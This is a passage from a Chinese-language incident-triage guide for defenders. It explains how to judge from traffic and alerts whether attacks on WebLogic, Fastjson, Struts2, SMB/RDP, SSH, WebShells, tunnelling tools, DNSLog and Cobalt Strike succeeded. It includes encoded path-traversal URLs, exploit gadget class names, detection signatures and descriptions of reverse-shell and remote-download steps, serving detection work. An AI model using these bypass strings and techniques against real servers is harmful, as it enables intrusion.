造特殊请求造成任意代码执行。受影响的版本是 10.3.6.0.0 、12. 1.3.0.0 、12.2. 1. 1.0 和 12.2. 1.2.0。

研判分析：

对于 CVE-2017-10271 漏洞攻击的研判，主要先识别攻击请求的行为，再去排查请求是否被执行了，和 CVE-2015-4852 漏洞利用思路类似，攻击者一般会利用 CVE-2017- 10271 反弹 Shell、写入 WebShell 或者下载远程恶意文件执行等。

如下图 UTS 威胁探针出现了 CVE-2017- 10271 漏洞告警。



查看数据包详情发现攻击者尝试利用漏洞执行了 bash 反弹命令。



而平台同时出现了 Linux 反向 Shell 连接的告警，也就是说上面漏洞的利用执行 bash 反 弹命令是成功了。

如果攻击者执行了可回显的命令，那么直接根据请求和响应的内容进行研判即可。



如果攻击者利用该漏洞写入了 WebShell ，如下图的攻击流量，红框部分即为写入 WebShell 的路径。



上图响应中出现了 java.io.PrintWriter cannot be cast to java.lang.String ，对于这种利用 方式，如果出现该字符串说明攻击大概率成功的，也可以通过访问该 WebShell 的 URL 或者 登录服务器查看文件是否存在来判断漏洞是否攻击成功。如下图访问出现 500 错误，证明  WebShell 被成功写入了服务器。



另外如果响应的数据包中出现 Invalid 字符串的话说明攻击是失败的，该服务器已经更新 了相应的漏洞补丁，这个研判方法不仅仅适用于 CVE-2017- 10271 ，也同样适用于CVE-2019-2725 、CVE-2019-2729 等。



CVE-2018-2628

漏洞概述：

WebLogic ServerWLS 组件存在安全漏洞，攻击者可通过 T3 协议在未经授权的情况下 进行远程代码执行。

研判分析：

该漏洞常见的攻击方式为通过 ysoserial 工具的JRMP 模块进行远程代码执行。因此研判 攻击是否成功的思路为漏洞攻击后服务器是否与 JRMPListener 存在 RMI 通信，以及命令是 否执行成功。

如下威胁告警中出现了 WebLogic 反序列化漏洞、JAVA RMI 远程通信、Linux 系统 Shell 反向连接三种告警事件，这三个事件刚好符合 CVE-2018-2628 的漏洞利用的完整过程，也就 是说该攻击大概率是成功的攻击事件。



具体的可以对每个告警事件的数据包进行分析。首先是 WebLogicT3 协议的握手数据包， 然后进行漏洞的利用。



后续，服务器与攻击者远程的 JRMPListener 建立了 RMI 通信。



分析 RMI 通信内容，发现攻击者利用漏洞让服务器执行远程下载命令 wget，从攻击者的 服务器下载了一个 back.py 脚本到/tmp 目录。



对于研判 back.py 脚本是否被成功下载到服务器可以登录服务器查看，或者通过流量回溯的方法确认。如下，通过流量回溯的方法确认 WebLogic 服务器确实有向攻击者的服务器下载过该脚本，从脚本的内容可确认是 python 反弹脚本。



最后，攻击者执行了 python 反弹脚本，获取了服务器权限，因此在告警事件出现了 Linux Shell 反向连接的告警。如下图，反弹 Shell 成功后执行了 whoami、ifconfig 等命令。



CVE-2019-2618

漏洞概述：

CVE-2019-2618 漏洞主要利用了 WebLogic 的 DeploymentService 借接口，攻击者在获 取了 WebLogic 账号密码的前提下，可通过构造文件上传的请求数据包，上传 WebShell ，进 而获取服务器权限。

研判分析：

以下流量包截图为 CVE-2019-2618 漏洞攻击成功的截图，如果该漏洞利用成功在响应的 内容中会返回 WebShell 的物理路径，因此，根据响应包的内容即可判断攻击是否成功。



如果账号密码错误响应的状态码为 401 未授权，返回内容包含 Invalid user name orpassword 。如果账号密码正确，但是已经更新了该漏洞的补丁则会返回 Deployment service servlet received a request of type "app\_upload" with an invalid application name。



CVE-2019-2725 & CVE-2019-2729

漏洞概述：

CVE-2019-2725 和 CVE-2019-2729 都是WebLogic Server WLS 组件的反序列化漏洞， CVE-2019-2729 是 CVE-2019-2725 漏洞补丁的绕过。攻击者可以通过构造恶意的 HTTP 请求，实现远程代码执行，从而获取服务器权限。

研判分析：

CVE-2019-2725 和 CVE-2019-2729 漏洞存在多种利用方式，漏洞利用可回显可不回显， 针对 WebLogic 10.3.6.0 和 12. 1.3.0.0 版本也会有不同的漏洞利用 payload ，但无论攻击方式如何变化，研判分析的思路基本都是一样的。

1.根据响应状态码判断

在 CVE-2019-2725 和 CVE-2019-2729 漏洞攻击中，如果响应状态码为 202 Accepted， 则表明漏洞是存在的，至于攻击是否成功可进一步分析攻击者的行为研判。需要注意的是并 不是只有出现 202 响应状态才是攻击成功的，在一些情况下响应状态码为 200 以及 500 也有 可能是成功的，下一步需要根据响应内容等进行研判。

2.根据响应内容判断

如果攻击者构造了可回显的漏洞攻击请求，则可分析攻击者在请求中执行的命令， 以及 根据响应内容中是否出现了命令执行的结果进行研判，如果出现了命令执行的结果则表明攻 击是成功的。另外考虑到也可能会出现漏洞执行无回显的情况，还可以根据补丁的提示信息

判断攻击是否成功。如果响应内容中出现 Invalid 和 Illegal 字符串则表明服务器已经更新了漏洞补丁，攻击是失败的。





如下图告警事件中出现了 CVE-2020-2725 漏洞攻击以及 Linux Shell 反向连接的告警。



分析 CVE-2020-2725 漏洞攻击的流量包，发现攻击者尝试利用漏洞执行 Bash 反弹命令， 并且可以看到响应状态码为 202 Accepted 状态。如果 CVE-2020-2725 或者 CVE-2020-2729 漏洞攻击中响应码为 202，则表明漏洞是存在的，至于攻击是否成功可根据分析攻击者执行的 操作进一步研判。在上述告警事件中，在 CVE-2020-2725 漏洞攻击后还出现了 Linux Shell反向连接的告警，说明反弹的命令已经被执行了，也就是说该攻击事件是成功的。



CVE-2020-14882 & CVE-2020-14883

漏洞概述：

CVE-2020- 14882 漏洞存在于 WebLogic 的控制台中，漏洞通过 HTTP 进行利用，漏洞 允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020- 14883 允许后台任意用户 通过 HTTP 协议执行任意命令。CVE-2020- 14882 结合 CVE-2020- 14883 漏洞利用则可造成 未授权的用户执行任意命令。

研判分析：

首先看 CVE-2020- 14882 权限验证绕过访问控制台漏洞，攻击者可使用二次编码的../等 绕过权限验证，URL 特征如：

/console/images/%252E%252E%252Fconsole.portal

/console/css/%25%32%65%25%32%65%25%32%66console.portal

而对于 CVE-2020- 14883 的漏洞利用会有不同的利用方式。常见的如：

com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplication Context  (适用于各版本)

com.tangosol.coherence.mvel2.sh.ShellSession  (适用于 WebLogic 12.2. 1 以上版本)

CVE-2020-14882 研判

对于该漏洞的研判可根据请求和响应进行研判。在请求中攻击者会使用../编码过的字符绕 过权限校验，观察响应包，如果响应码为 302 Moved Temporarily，而且从响应头部的 Location 可知确实绕过校验跳转进入到了/console/%2E%2E%2Fconsole.portal 则表明  CVE-2020- 14882 漏洞攻击成功。



CVE-2020-14883 研判

对于 CVE-2020- 14883 漏洞攻击部分，无法直接从响应包判断是否攻击成功。但是通过 分析攻击的请求我们发现如果该漏洞攻击成功的话，WebLogic 服务器会向攻击者的远程服务 器 10.0.0.1 发起 HTTP 请求，获取 poc.xml 文件。



因此可通过流量回溯的方法，查询 Weblogic 服务器是否请求了该 XML 文件，如果请求 了的话则大概率攻击是成功的。通过检索历史流量日志，发现 WebLogic 服务器确实请求了攻击者服务器的 XML 文件，并且从响应内容可知 XML 文件构造了 bash 反弹命令，如果该命令执行成功的话，WebLogic 服务器势必与攻击者服务器的 4040 端口建立了通信连接。



最后，再从流量中检索 WebLogic 服务器是否与攻击者监听的反弹端口 4040 建立连接即 可最终确认事件是否为成功的攻击事件。



Fastjson 反序列化漏洞

Fastjson≤1.2.24 版本

漏洞概述：

Fastjson≤1.2.24 版本存在反序列化漏洞，Fastjson 在解析 json 的过程中，支持使用  autoType 来实例化某一个具体的类，并调用该类的 setter/getter 方法来访问属性，攻击者通过构造恶意利用链可导致任意代码执行。

研判分析：

如果环境支持报错信息返回的话，当响应包出现 autoType is not support 表明 Fastjson 反序列化漏洞是攻击失败的。另外，Fastjson漏洞默认也是没有回显的，但是攻击者也可以通过构造回显的方法来获取结果。对于存在回显的情况，直接观察请求及响应内容即可进行研判。

对于无回显的利用，攻击者常见的漏洞利用的方式有直接反弹 Shell 、写入 WebShell 文件、执行远程下载命令下载并运行恶意文件等。虽然不能通过分析漏洞攻击数据包直接研判

无回显漏洞成功与否，但同样的，可以通过网络流量回溯分析、主机排查等方式进行研判。

下图 Fastjson 反序列化漏洞攻击中，如果攻击成功的话，服务器会和攻击者的 LDAP 服务建立 RMI 通信。



从告警事件中发现确实存在建立了 RMI 通信，可知 Fastjson 反序列化漏洞是存在的。



分析 RMI 通信内容，服务器会去请求 <http://47.xx.xx.xx:8002/Poc.class> 文件。



继续分析后续流量，服务器确实请求了该 Poc 文件，从流量中可以看到该 Poc 主要用于 执行反弹 Shell 的命令。也可以通过流量中完整还原该 Poc 文件，反编译 class 文件后即可得 到原始 JAVA 代码内容。



最后的流量为反弹 Shell 后成功执行命令。



Fastjson≤1.2.47 版本

漏洞概述：

Fastjson≤1.2.47 版本存在反序列化漏洞，该漏洞是 fastjson≤1.2.24 版本的延伸利用，无 需依赖 autotype 的开启。

研判分析：

Fastjson≤1.2.47 版本反序列化漏洞与 Fastjson≤1.2.24 漏洞研判思路基本是一致的，这 里不再重复赘述。

需要注意的是 Fastjson 是支持 unicode 和十六进制编码的，有时候可能会遇到编码过的 Fastjson 反序列化 payload ，如下图：



对于这种情况，只需要先将 payload 先解码再研判即可，可使用线上解码工具，或者使用浏览器的 console 进行解码。



Struts2 远程代码执行漏洞

S2-016  (CVE-2013-2251)

漏洞概述：

攻击者可通过操纵以"action:"/"redirect:"/"redirectAction:"为前缀的参数而引入漏洞允许 远程执行命令。漏洞影响版本为 Struts 2.0.0 – Struts 2.3. 15。

研判分析：

S2-016 漏洞攻击最明显的特征就是"action:"/"redirect:"/"redirectAction:"。

如下图攻击中，带有 redirect:特征，并且构造 OGNL 表达式，执行了 id 命令，响应的内 容中返回了执行 id 命令的结果，该攻击是成功的。



需要注意的是 S2-016 支持构造 multipart 数据包格式，攻击者一般会通过修改为此种方 式尝试进行一些防护绕过等。



由于该漏洞是利用了"action:"/"redirect:"/"redirectAction:"跳转前缀，因此命令执行的结果 也可能出现在响应内容头部的 Location 字段，研判的时候需要仔细分析响应包的所有内容。 如下图，执行 whoami 命令，从响应内容头部的 Location 字段可知命令被执行了，当前用户 为 root。



另外，S2-016 的攻击也可能没有回显，具体需要根据攻击者构造 payload 及执行的命令 来判断。如下图中攻击流量中攻击者执行了 wget 命令进行远程下载



通过流量回溯发现服务器确实向攻击者的服务器请求下载了该脚本，可知攻击是成功的。



也可通过登录系统，确认 Web 应用目录所在，查看 Struts 是否为漏洞影响版本。



S2-045 & S2-046  (CVE-2017-5638)

漏洞概述：

S2-045 漏洞是由于 Struts2 基于 Jakarta Multipart 解析器执行文件上传时，可能导致远 程代码执行。影响版本为 Struts 2.3.5 – Struts 2.3.31 ，Struts 2.5 – Struts 2.5. 10。

S2-046 漏洞与 S2-045 漏洞相似，CVE 编号都是 CVE-2017-5638 ，只是漏洞触发点不 一样，S2-045 漏洞触发点在 Content-Type ，而 S2-046 漏洞触发点有两个地方，分别是Content-Length 和 Content-Disposition 的 filename。

研判分析：

S2-045 是由于 Struts2 使用 Jakarta Multipart 解析器执行文件上传时导致的远程代码执 行漏洞，漏洞是通过构造恶意的 Content-Type 值进行触发。因此，对于该漏洞的研判分析可 关注请求包中的 Content-Type 构造的 payload。如下图中攻击者，攻击者在 Content-Type 构 造了OGNL 表达式，执行了 id 命令，返回响应包中返回了命令执行的结果。



而 S2-046 漏洞的触发点在 Content-Length 和 Content-Disposition 的 filename



3.2操作系统

Windows

RDP/SMB 爆破

攻击描述：

RDP (端口 3389) 是远程桌面协议，SMB  (端口 445) 则是 Windows 上文件共享协议， 均可以通过系统账号密码进行访问。若系统账号密码设置较为简单，则容易通过多次尝试得 到正确的账号密码，随后登陆系统进行操作。

分析研判：

SMB 暴力破解

在平台上，无论 SMB 暴力猜测用户口令是否成功，都会显示攻击成功的“检测到针对 SMB 协议的暴力破解”告警，同时也可能会有一个“Windows SMB 暴力猜测用户口令”告 警：



注意：

&#x20; 一般来说，RDP 或者 SMB 爆破多出现在内网移动阶段，需要关注是否为内网发起攻击， 内网发起的攻击则 90%几率攻击者已经进入内网；

研判分为两个阶段：暴力破解、是否成功。

首先进入告警详情，并点击更多进入到只能搜索界面：



进入后简单修改查询内容，进行查询，短时间内大量请求能够说明是暴力破解：



要研判是否成功，需要关注数据包，直接搜索受害 IP+445 端口+操作成功可以搜索到 (比较准确) ：



SMB 认证成功，会在这个 stream 中返回一个 51 fe 53 4d 42  的关键内容：



相对的，在 SMB 认证失败的时候在 Windows7 sp1 返回的是 49 fe 53 4d 42 ，对于

Windows10 则返回 44 fe 53 4d 42



因此获取到数据包的话，可以根据相关内容判断是否攻击成功：



&#x20;RDP 暴力破解

同理，RDP 得到“检测到针对 Windows 远程桌面协议的暴力破解”告警，但是结果依然不可信：



通过“告警日志”->“更多” ，进入智能搜索，并调整时间与搜索语句，根据日志列表数量可以判断是暴力破解：



同样无法在这里取到响应数据包，响应数据包需要到 UTS 获取。

RDP 通信通常有 Cookie: mstshash=xxxxxx  (Unix 部分客户端连接是没有的)



但是因为使用TLS 加密流量，其实并无法得到是否成功的，但是可以从数据包大小看是否已经连接：



&#x20;SMB+RDP

这种攻击手法主要是通过 SMB 爆破成功再通过 RDP 登录，通常表现为多 SMB 请求，少量甚至单个 RDP 请求。即，看到同一个目标多SMB 后面跟着 RDP ，则很大几率失陷。

此处不再赘述。

MS17-010 漏洞

漏洞描述：

永恒之蓝 (英语：EternalBlue) 是美国国家安全局开发的漏洞利用程序，于 2017 年 4月 14 日被黑客组织影子掮客泄漏。该工具利用 445/TCP 端口的文件分享协议的漏洞进行散 播。Windows 主机没有安装相关补丁、且没有进行 445 端口屏蔽的话则可能存在漏洞，攻击 者可以利用漏洞执行任意命令。

研判分析：

进行扫描探测的时候会触发“Windows MS17-010 系列漏洞扫描攻击”：

在漏洞利用过程中，如果是存在漏洞的，因为会建立匿名的 SMB 管道，所以会伴随着 “Windows SMB 暴力猜测用户口令”、“针对 SMB 服务的暴力破解成功”、“ 检测到针对 SMB 协议的暴力破解”：



进行漏洞利用不成功的时候会触发“远程代码执行漏洞攻击” ，内容则是 MS17-010：



进行漏洞利用成功表现为“通过操作系统漏洞获取服务器权限”告警，详情如下：



对于检测扫描，通常不会产生anonymous 的 SMB 管道建立，但是会产生一个错误码， 这个代码是 0xc0000205 时候意味着：



对于利用的研判，会产生 anonymous 建立 SMB 管道：smb.path ==

"\\\\\\\192.168.198.203\\\IPC$" || smb.account == ""



数据包中 smb.mid==82 意味着永恒之蓝的 payload 已经上传成功 (并非都有) ：



如果植入了 doublepulsar 后门，连接成功则会出现 smb.mid == 81  (并非都有) ：



目标沦陷后可能会产生其他事件，可以进行关联研判看是否攻击成功。

Linux

SSH 爆破

攻击描述：

SSH  (端口22) 是可靠的，专为远程登录会话和其他网络服务提供安全性的协议。攻击者在进入内网后可能会对尝试使用已收集的口令信息进行 SSH 口令爆破或者密码复用等。

分析研判：

攻击者进入内网后一般会对整个 C 段进行 SSH 登录尝试，因此可能会出现在短时间内 单个源 IP 对 C 段的多个主机进行 SSH 登录的事件。出现此类事件需要特别关注，在研判时也需要对源 IP 、时间间隔等进行识别分析，并不是出现此类事件就一定是攻击者在爆破，堡垒机和跳板机可能也会引发此类告警事件。



具体登录成功与否可以登录主机查看 SSH 日志，如下图，Accepted password for root， 表明使用 root 用户登录成功。



# 高频工具研判

WebShell

冰蝎 (Behinder)

工具描述：

冰蝎是一款当下流行的 WebShell 客户端，因其实现了动态流量加密，使得基于流量检测 的安全产品难以准确检测出其恶意的通信流量，因此广受攻击者喜爱。

冰蝎链接：<https://github.com/rebeyond/Behinder>

研判分析：

基于流量检测的安全产品对于冰蝎的检测主要基于两个方面的流量，一个是利用文件上传漏洞上传冰蝎 WebShell 时的流量，另外一个是冰蝎服务端与客户端进行通信时的流量。

1.上传流量的检测

攻击方在利用文件上传漏洞上传冰蝎 WebShell 时，安全产品在检测到危险的文件后缀， 以及对上传的文件内容进行检测时，可以比较准确的识别出冰蝎 WebShell。

如下图出现冰蝎加密 PHP WebShell 文件上传的告警事件。



查看告警事件详情，发现攻击者确实在尝试上传冰蝎 WebShell。



由于响应包使用了gzip 压缩，因此在上图中看到的响应包是乱码的，可以下载数据包进行分析。



找到对应的 HHTP 请求，右键 Follow->HTTP Stream 即可查看到 gzip 解压的响应内容。 如下图，从响应的信息可判断冰蝎 WebShell 已经被成功上传



也可访问冰蝎 WebShell ，或者登录服务器排查文件的方式进一步确认冰蝎 WebShell 是 否被上传成功。如下访问发现文件存在，确认 WebShell 成功上传到了服务器。



需要注意的是除了文件上传漏洞之外，其他的漏洞比如 JAVA 反序列化漏洞或者命令执 行漏洞利用难以通过上传流量对冰蝎 WebShell 进行检测，因为这些漏洞的利用并不是通过直 接文件上传的方式写入 WebShell。

2.通信流量的检测

安全产品根据冰蝎通信的流量特征进行检测，但是由于无法对通信流量进行解密，因此 根据通信流量无法实现对冰蝎进行比较精准的检测，如检测到请求或者响应的符合加密特征 的流量会触发告警，而正常的业务通信流量也可能会匹配到这样的特征，因此会带来很多误 报的问题。在基于通信流量检测触发的告警事件中，比较重要的就是能够分析并识别误报情

况。

如下图产生的 WebShell 连接告警就是基于通信流量进行检测的。



下载数据包进行分析，初步分析可先判断请求的文件是否为常见 WebShell 后缀 (分析 后缀的方法适合于服务器上存在 WebShell 文件的情况，不适合于无文件 WebShell 的情况) ， 常见的 WebShell 后缀有 php 、php3 、php5 、pht 、phtml、asp、asa、cer、aspx、asmx、jsp、 jspx 等。以下数据包中请求的资源文件后缀为 php ，冰蝎使用的是 AES 加密，分析请求的数 据包符合 AES 加密的特征。



对于这种情况的研判，需要登录服务器找到该文件，并查看内容确认是不是冰蝎 WebShell。



前面提到过，正常的业务数据也可能使用了加密流量，从而触发 WebShell通信告警。 对于这种情况，如果访问的资源文件后缀是常见的 WebShell 后缀，可以通过上述的方法进行 排查。如果告警事件中访问的资源是无后缀，或者不是常见的 WebShell后缀，如果不是误报 事件，那就大概率是无文件 WebShell  (关于无文件 WebShell 的研判，可以参考 4. 1.3 章节 内容) 。可以通过历史事件的方法来做初步排除，如果是在攻防演习很早之前就一直出现该 WebShell 告警事件，而且几乎是每天都存在的，那么很大概率可能是误报事件。

如果确认是冰蝎 WebShell ，需要进一步通过流量研判攻击方执行了哪些恶意操作，则需要对冰蝎加密的流量进行解密。对于冰蝎流量的解密，可以使用反编译之后的冰蝎代码，直

接调用冰蝎解密函数进行解密即可。

反编译后的冰蝎代码链接：<https://github.com/MountCloud/BehinderClientSource>

解密函数在 src/main/java/net/rebeyond/behinder/core/Crypt.java 定义，如下 DecryForJAVA 为 JAVA 应用相关加密流量的解密方法。



新建 Test 类，调用 DecryptForJAVA 进行解密。

| package net.rebeyond.behinder.payload.java;&#xA;import java.io. *;&#xA;import java.nio.file.*;&#xA;import net.rebeyond.behinder.core.Crypt;&#xA;import sun.misc.BASE64Decoder;&#xA;public class Test {&#xA;public static void main(String\[] args) throws Exception {&#xA;String data = "XXXX";//加密的流量&#xA;byte\[] bs = new BASE64Decoder().decodeBuffer(data);&#xA;String key = "xxxx";//加密的密钥&#xA;byte\[] decrypted = Crypt.DecryptForJAVA(bs,key);&#xA;String result = new String(decrypted);&#xA;//System .out.println(result);&#xA;Files.write((new File("XXXX")).toPath(), decrypted, new&#xA;OpenOption\[]{StandardOpenOption.CREATE,&#xA;StandardOpenOption.TRUNCATE\_EXISTING});//文件保存的路径&#xA;}&#xA;} |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |

如下图，对冰蝎 JAVA 相关的 WebShell 通信流量进行解密，运行后解密的代码保存在 test.class。



使用 Luyten 等反编译对 class 代码反编译，获取 JAVA 代码，分析代码得知该加密流量 的行为为执行 whoami 命令。



哥斯拉 (Godzilla)

工具描述：

与冰蝎相似，哥斯拉也使用了加密流量通信来逃避安全设备的检测，另外该工具自带了 一些插件模块，实现了写无文件 WebShell 等强大的功能，因此广受攻击方青睐。

哥斯拉链接：<https://github.com/BeichenDream/Godzilla>

研判分析：

对于哥斯拉 WebShell 的研判思路和冰蝎类似，这里不再赘述。

蚁剑 (AntSword)

工具描述：

蚁剑是一款开源的 WebShell 管理工具，蚁剑支持插件开发，拥有一定开发基础的使用者可以随意对蚁剑代码进行进行修改增强个性化自定义。

蚁剑链接：<https://github.com/AntSwordProject/antSword>

研判分析：

对于蚁剑 WebShell 的研判思路和冰蝎类似，这里不再赘述。

无文件 WebShell

攻击描述：

无文件 WebShell 不是指具体的一款 WebShell攻击工具，而是指一种攻击技术。无文件 WebShell 攻击技术允许往应用中注入 WebShell，而无需 WebShell 文件落地，以此来躲避安 全设备及安全人员的应急排查、查杀等。无文件 WebShell 一般比较广泛的用于 JAVA 应用的 漏洞攻击中，尤其是通过 JAVA 反序列化漏洞攻击注入无文件 WebShell 尤为常见。比较常见 的无文件 WebShell 实现方式有：

1\. 基于 Servlet 规范，通过动态注册 Servlet 、Filter 、Listener 等实现无文件 WebShell

2\. 基于特定框架，如 Spring 框架下动态注册 Controller 等。

3\. 基于 JAVA Agent ，如 memShell

研判分析：

由于无文件 WebShell 可以通过动态注册 Servlet 或者 Filter 等方式实现，因此攻击者可 以通过自定义任意的 URL 匹配模式来决定哪些 URL 会通过注册恶意的 Servlet 或者 Filter 来 处理。也就是说无文件 WebShell 的 URL 最后部分不再局限于任何后缀，也可以是无后缀。

tomcat-memshell-scanner.jsp

如果通过告警事件发现可能存在恶意的 WebShell 通讯流量，但是在服务器上无法找到 对应的文件。可以先按照排除法的思路分析是否为正常业务的误报，在历史告警事件中查看 以往事件是否有一直出现该告警事件，或者通过历史流量回溯查看攻防演习很早以前是否就 有一直访问该 URL 的流量，如果只是攻防演习期间才出现的，那么不排除是内存 WebShell的可能，如果一直都有出现的，大概率可能是正常业务流量引发的误报。如果需要进一步研 判是否为无文件 WebShell ，需要登录服务器进行排查。

\#jsp框架，日志中排查可疑jsp的访问请求。

1、先查看检查服务器web日志，查看是否有可疑的web访问日志，比如说filter或者listener类型的内存马，会有大量url请求路径相同参数不同的，或者页面不存在但是返回200的请求。
2、如在web日志中并未发现异常，可以排查是否为中间件漏洞导致代码执行注入内存马，排查中间件的error.log日志查看是否有可疑的报 错，根据注入时间和方法根据业务使用的组件排查是否可能存在java代码执行漏洞以及是否存在过webshell，排查框架漏洞，反序列化漏洞。
3、查看是否有类似哥斯拉、冰蝎特征的url请求，哥斯拉和冰蝎的内存马注入流量特征与普通webshell的流量特征基本吻合。。d,
4、通过查找返回200的url路径对比web目录下是否真实存在文件，如不存在大概率为内存马。

内存马特征：
1、内存马的Filter是动态注册的，所以在web.xml中肯定没有配置，这也是个可以的特征。但servlet 3.0引入了@WebFilter标签方便开发这动态注册Filter。这种情况也存在没有在web.xml中显式声明，这个特征可以作为较强的特征。
2、内存马就是代码驻留内存中，本地无对应的class文件。所以我们只要检测Filter对应的ClassLoader目录下是否存在class文件。
————————————————

登录服务器排查是否存在无文件 WebShell 可以使用 Arthas 工具。

Arthas 工具链接：<https://github.com/alibaba/arthas>

将Arthas 工具上传到服务器并运行，根据服务器上运行的中间件选择需要attach 的进程， 例如下图中对 WebLogic 进行分析。



sc 命令可以查看 JVM 已经加载的类信息，可以根据结果看是否存在可疑的类名。 sc javax.servlet.Servlet#查看 Servlet 类信息

sc javax.servlet.Filter #查看 Filter 类信息



可以通过 jad –source-only  某一类名命令对可疑的类进行反编译，分析 JAVA 代码确认 是否为恶意。如下图反编译后发现为冰蝎无文件 WebShell。



另外，也可以使用 copagent 进行无文件 WebShell 排查，该工具也是参考 Arthas 实现， 可以自动分析并提取可能的恶意类，并实现自动反编译。那么我们就可以直接通过在反编译的代码搜索匹配特征的方式排查是否存在恶意类。

copagent 工具链接：<https://github.com/LandGrey/copagent>

上传工具到服务器运行，并选择需要attach 的进程，分析完成后结果保存会到当前目录 的.copagent/result.txt 文件中。



查看结果文件发现可能存在 50 个恶意类，但是这个结果是存在很多误报的。



在.copagent/java 目录下会保存可能恶意类反编译的JAVA 代码，可通过关键字匹配搜 索进一步分析是否存在恶意类。



## 代理

NPS

工具描述：

NPS 是一款热门的代理工具，攻击者在 VPS 上建立服务器之后，只要在能够访问外网的内网机器上运行客户端，则可以建立一个隧道。通过 VPS 上特定端口的流量会被转发到客户端所在网段或者指定端口。

NPS 链接：<https://github.com/ehang-io/nps>

研判分析：

下面是客户端连接成功的一些标志，包括特征 TST 、客户端的版本 (client version) 、 核心版本 (core version) ；而服务端返回 sucs 就是连接成功，main 则是使用什么模块 (第 一个连接请求成功肯定都是调用的 main)



然后建立隧道，在连接成功后发送chan 进行隧道建立：



客户端可能会从服务端获取配置信息 (当然也可以配置不获取) ，则存在对应返回，而 可以看到这里 Crypt 为true ，则后面的内容都是 TLS 加密无法检测的：



如果没有加密的话，倒是有一些请求是可以从流量中看到，如下：



FRP

工具描述：

FRP 是很热门的代理工具，可以建立端口映射的同时，也可以建立一个 sock 隧道。使用 这个工具需要一个公网的 VPS ，软件连接 VPS 建立隧道，攻击者访问 VPS 的特定端口时候 FRP 服务端会把流量进行转发到 FRP 客户端所处网络，达到访问目标网段/端口的目的。

FRP 链接：<https://github.com/fatedier/frp>

研判分析：

对于开启了 tls\_enable 的 frp ，在建立连接时候，会产生下面的特征：



而对于没有开启tls 的话，则会以明文的形式传输一些配置信息，可以根据“privilege\_k ey” 、“run\_id” 、“pool\_count” 、“server\_udp\_port”这些通用性较低的关键字进行搜索



4.2.3reGeorg

工具描述：

reGeorg 是一个 Web 的流量转发工具，服务端以脚本 (支持 jsp、php 、asp) 的形式被 攻击者上传/写入到web 目录下可以通过 url 访问，然后攻击者通过客户端连接服务端，并将本地流量发送到对应的服务端，服务端可以将流量转发到实际的内网机器。

reGeorg 链接：<https://github.com/sensepost/reGeorg>

研判分析：

告警展示“内网隧道工具 reGeorg



上面会显示  “webshell regeorg\_connect” ，详细内容如下：



也会显示“内网隧道工具 reGeorg 连接”这样的内容：



然后，判断的话，可以直接访问下，出现 Georg sys, ‘All seems fine’表示存在 regeorg 这个服务端：



如果客户端连接成功，则会出现 X-CMD: CONNECT ，X-TARGET:  需要访问的内网 IP 等，X-Status: OK 表示连接成功，可以继续传输，可以判断攻击成功：



需要注意的是，上面只是展示没有被修改的 reGeorg 。作为一个 Webshell ，它很容易被 修改，例如可以将cmd  改成 mdc 、将 connect 改成conn ，也可以将头部一些特征给去掉换 成其他返回，又可以进行加密传输。Neo-reGeorg 就是其中一个变种。

4.2.4Neo-reGeorg

工具描述：

属于 reGeorg 的一个变形，作者基于 reGeorg 进行修改，去掉了上面提到的诸多特征， 也将数据进行加密传输。攻击者可以自定义密码进行传输。

Neo-reGeorg 链接：<https://github.com/L-codes/Neo-reGeorg>

研判分析：

设备不会进行告警，可以通过请求量比较大的时候去排查：



在进行请求的时候返回一个注释，不会显示任何东西，基本可以判断成功了 (不一样的

目标是不一样的内容) ：



成功后的通信还有加密的头部以及返回头部，如下 (不同的目标是不一样的) ：



4.2.5pystinger

工具描述：

毒刺(pystinger)通过 webshell 实现内网 SOCK4 代理,端口映射。主体使用 python 开发, 当前支持 php,jsp(x),aspx 三种代理脚本。攻击者可以使用它进行 metasploit-framework,viper, cobalt  strike 上线。

pystinger 链接：<https://github.com/FunnyWolf/pystinger>

分析研判：

首先攻击者会上传一个脚本文件，然后会通过 URL 访问看是否上传成功，  (没有被修改过的情况下) 访问会返回“UTF-8”：



然后进行通信的话，请求包主要有 SENDDATA 、Endpoint 、Remoteserver 三个参数， 并且 Endpoint 的值比较固定可以作为判定之一：

&#x20; /check/&#x20;

/ 2Fdata\_sync/

对于返回内容一般都是 ey 开头，即返回一个 json ，不过 json 不尽相同，常见的如下：&#x20;

&#x20; eyJyZXR1cm5fZGF0YSI6IHt = {"return\_data":&#x20;

&#x20; eyJjbGllbnRfYWRkcmVzc19saX = {"client\_address\_l



DNSLog

在攻防演练中，在进行反序列化漏洞、命令执行漏洞探测时，在某些情况下，会没有回 显信息，这时攻击者为了要确认目标网站是否存在此漏洞或者此漏洞是否能进行利用，常常 会采取 DNSLog 的方式进行漏洞验证。

攻击者向目标服务器发送包含 DNSLog 平台相关子域名的 payload 请求，漏洞触发则请 求解析上述域名，即 DNSLog 平台记录到 DNS 解析请求或者访问请求，则目标服务器存在漏 洞。

攻击者通常会自己搭建的 DNSLog 平台或使用公开 DNSLog 平台，平台示例如下：



常见 DNSLog 平台地址如下：

ceye.io

dnslog.cn

dnslog.io

dnslog.xyz

burpcollaborator.net

dig.pm

tu4.org

h.i.ydscan.net

dnsbin.zhack.ca

s0x.cn

有主动发起 DNSLog 访问的源主机大概率是被攻击成功或者存在漏洞的，需要进一步对 源主机进行排查。



## 后渗透

Cobalt Strike

工具描述：

Cobalt Strike 是一款基于java 编写的全平台多方协同后渗透攻击框架，集成了端口转发、 端口扫描、socks 代理、提权、钓鱼、远控木马等功能。

研判分析：

Cobalt Strike 支持多种 Beacon ，可以设置包括 DNS 、HTTPS 、HTTP 、SMB 等协议的 监听器。



如果安全产品出现 Cobalt Strike 相关的告警事件，需要引起重视，一般来说，出现这种 事件很大概率上存在主机失陷了。由于 Cobalt Strike 基本是加密的流量，因此从流量上进行 研判相对会比较艰难，但是如果没有不修改 Malleable C2 默认配置，也会存在一些比较明显 的特征。

比如 DNS Beacon 通讯中，在 DNS 查询的通信中会存在 aaa.stage.\*\*\*特征，一般目的 地址为 DNS 服务器，理论上源地址为受控主机 IP，但是往往实际上可能会由于探针部署等问 题，流量中的源 IP ，导致找不到真实的失陷主机。



在 HTTP  Beacon 通信中如下：



